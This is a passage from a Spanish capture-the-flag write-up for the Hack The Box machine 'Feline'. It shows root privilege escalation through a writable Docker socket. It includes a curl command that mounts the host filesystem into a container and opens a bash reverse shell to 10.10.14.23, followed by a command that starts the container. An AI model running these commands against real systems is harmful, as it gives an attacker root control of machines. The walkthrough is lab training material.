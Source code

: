   ```
vamos a subir el script de linpeas para ver por donde podemos intentar escalar privilegios. Una vez subido y ejecutado, nos reseña que tenemos permisos de lectura y escritura sobre los sockets del servicio docker. 

![feline-dockershockets-hacktricks](/assets/imagenes/2021-02-20-feline-HTB/feline-dockershockets-hacktricks.png)

* [https://www.redtimmy.com/a-tale-of-escaping-a-hardened-docker-container/](https://www.redtimmy.com/a-tale-of-escaping-a-hardened-docker-container/)

Vamos a proceder a la explotación de docker:

1. Primero listamos las imagenes.

    ![feline-docker-list-images](/assets/imagenes/2021-02-20-feline-HTB/feline-docker-list-images.png)
    Vemos que tenemos una imagen llamada sandbox.

2. Vamos a usar dicha imagen para realizar la escalada de privilegios.
    Lo que vamos a hacer es montar el sistema de ficheros entero en el docker y con ello todo lo que hagamos se reflejara en el host.
    ```
    curl -s -XPOST -H "Content-Type: application/json" --unix-socket / var / run / docker.sock -d "{\"Image\":\"sandbox\",\"Hostname\":\"feline\",\"cmd\":[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"bash -c 'bash -i>& /dev/tcp/10.10.14.23/1112 0>&1'\\\"\"],\"Binds\":[\"/:/mnt:rw\"]}" http :// localhost / containers / create
    ```
    Este comando nos devolvera el id del contenedor que hemos creado, el cual luego usaremos para levantarlo y obtener una reverse shell con el sistema de ficheros de la máquina monatdo en el.

3. Por ultimo con el siguiente comando arrancaremos el contenedor y levantaremos un listener de netcat en el puerto que le hayamos indicado cuando creamos el contenedor. En este caso usaremos el puerto 1122

    ```
    curl -XPOST --unix-socket/var/run/docker.sock http://localhost/containers/fdf541aa409a744d6658e70d85df15d9c3a2693dd4af7925622144fab21f0e88/ start
    ```
    ![feline-revshell-root](/assets/imagenes/2021-02-20-feline-HTB/feline-revshell-root.png)